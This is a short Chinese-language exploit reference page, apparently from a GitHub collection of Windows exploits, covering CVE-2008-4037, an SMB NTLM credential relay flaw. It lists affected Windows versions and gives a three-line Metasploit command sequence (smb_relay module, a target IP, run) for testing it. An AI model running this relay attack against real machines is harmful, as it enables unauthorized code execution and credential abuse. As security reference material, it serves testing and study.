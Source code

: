 ### CVE-2008-4037

#### 描述

通过远程SMB服务器可以重播客户端用户的NTLM凭据在客户端计算机上执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows XP          |                  |         | SP2    |                    |
| Windows XP          |                  |         | SP3    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | :heavy_check_mark: |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

使用msf 测试系统windows server 2003 sp2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4037_win2003_x86_msf.png?raw=true)

